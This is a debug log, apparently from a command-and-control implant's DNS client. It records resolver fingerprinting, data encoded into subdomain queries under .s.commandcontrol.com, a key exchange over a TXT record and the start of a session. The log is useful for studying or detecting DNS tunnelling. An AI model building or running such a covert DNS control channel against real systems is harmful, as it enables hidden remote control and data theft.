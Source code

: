    ```bash
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 10.042231ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 1.162.116.21
   2024/11/23 15:48:23 dnsclient.go:734: [dns] dns session id: 7643649
   2024/11/23 15:48:23 dnsclient.go:810: [dns] Fingerprinting 1 resolver(s) ...
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c3423e1f1fbyvwzpu.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 3.180792ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 92.10.10.78
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c342ecvtvmqu41y67.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 9.623392ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 153.190.31.97
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c3427qqre76jzxjyg.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 3.844706ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 25.33.165.86
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of 11awf08c3426n8gqbd5er33g.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.286681ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 17.107.58.163
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPNPEZfokxzwH.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.259932ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 208.211.228.44
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPSJri3BywNN5.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.637425ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 19.118.128.142
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPbsjY7F2GKS3.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 2.579596ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 239.28.240.5
   2024/11/23 15:48:23 resolver-generic.go:92: [dns] 10.89.1.3:53->A record of TnY73vLSPd6Zv4zcUidp.s.commandcontrol.com. ?
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 3.515403ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:109: [dns] answer (a): 152.37.160.128
   2024/11/23 15:48:23 dnsclient.go:830: [dns] 10.89.1.3:53: avg rtt 3.74099ms, base58: true, errors 0
   2024/11/23 15:48:23 dnsclient.go:649: [dns] encoded: 0, subdata space: 227 | stop: 103, len: 104
   2024/11/23 15:48:23 dnsclient.go:655: [dns] shave data [0:104] of 104
   2024/11/23 15:48:23 dnsclient.go:661: [dns] encoded length is 157 (max: 228)
   2024/11/23 15:48:23 dnsclient.go:690: [dns] subdata 0 (0->104): 104 bytes
   2024/11/23 15:48:23 dnsclient.go:693: [dns] original data: 104 bytes
   2024/11/23 15:48:23 dnsclient.go:694: [dns] total subdata: 104 bytes
   2024/11/23 15:48:23 resolver-generic.go:175: [dns] rtt->10.89.1.3:53 10.390112ms (err: <nil>)
   2024/11/23 15:48:23 resolver-generic.go:152: [dns] answer (txt): [pdrzTB7BJ5lUz4TEjJItw4Zc3LNNzPll6whAc0BojCcPpQsDS9ZGuiT8d6PE0CKTCl3enPt-DllzUfGM]
   2024/11/23 15:48:23 dnsclient.go:355: [dns] key exchange was successful!
   2024/11/23 15:48:23 dnsclient.go:359: [dns] starting worker(s) ...
   2024/11/23 15:48:23 session.go:179: Starting new session with id = &{[0xc0000a62d0] 0xc0000a0240 map[10.89.1.3:53:0xc0000ae200] .s.commandcontrol.com. 1000000000 3 5000000000 false  228 7643649 1 false 0xc0001ba390 0xc000070600 0xc000070660 [0xc00006eba0 0xc00006ebc0] 2 {} {} true}
   2024/11/23 15:48:23 dnsclient.go:235: [dns] starting worker #0
   2024/11/23 15:48:23 dnsclient.go:235: [dns] starting worker #0
   ```
